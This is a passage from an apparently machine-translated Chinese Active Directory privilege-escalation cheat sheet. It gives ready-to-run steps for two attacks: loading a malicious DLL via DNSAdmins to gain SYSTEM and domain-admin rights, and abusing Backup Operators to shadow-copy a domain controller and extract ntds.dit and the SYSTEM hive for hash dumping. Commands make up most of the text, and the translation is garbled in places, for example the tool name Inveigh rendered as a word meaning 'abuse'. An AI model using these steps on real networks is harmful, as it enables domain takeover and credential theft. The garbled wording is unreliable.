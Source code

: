 WUT 是迪斯？:如果用户是 DNSAdmins 组的成员，他可能会以 dns.exe 的权限加载任意 DLL，作为 SYSTEM 运行。如果 DC 为 DNS 提供服务，用户可以将其权限提升至 DA。该攻击过程需要重新启动 DNS 服务的权限才能运行。

1.  枚举 DNSAdmins 组的成员:

*   PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
*   广告模块:`Get-ADGroupMember -Identiny DNSAdmins`

1.  一旦我们找到了这个群体中的一员，我们就需要妥协(有很多方法)。
2.  然后，通过在 SMB 共享上提供恶意 dll 并配置 DLL 使用，我们可以提升我们的权限:

*   `#Using dnscmd: dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll #Restart the DNS Service: sc \\DNSServer stop dns sc \\DNSServer start dns`

# 滥用活动目录集成的 DNS

*   [利用集成活动目录的 DNS](https://blog.netspi.com/exploiting-adidns/)
*   [再次访问 ADI DNS](https://blog.netspi.com/adidns-revisited/)
*   [漫骂](https://github.com/Kevin-Robertson/Inveigh)

# 滥用备份操作员组

*WUT 是 DIS？:如果我们设法侵入属于 Backup Operators 组成员的用户帐户，我们就可以滥用其权限来创建 DC 当前状态的卷影副本，提取 ntds.dit 数据库文件，转储哈希并将我们的权限升级到 DA。*

1.  一旦我们获得了拥有 SeBackupPrivilege 的帐户的访问权限，我们就可以访问 DC 并使用签名的二进制磁盘创建卷影副本卷影:

```
#Create a .txt file that will contain the shadow copy process script
Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup  
}#Execute diskshadow with our script as parameter
diskshadow /s script.txt
```

1.  接下来，我们需要访问卷影副本，我们可能有 SeBackupPrivilege，但我们不能简单地复制粘贴 ntds.dit，我们需要模拟备份软件，并使用 Win32 API 调用将其复制到可访问的文件夹中。为此，我们将使用[这个](https://github.com/giuliano108/SeBackupPrivilege)惊人的回购:

```
#Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

#Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege

#If it isn't we enable it
Set-SeBackupPrivilege

#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite

#Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive
```
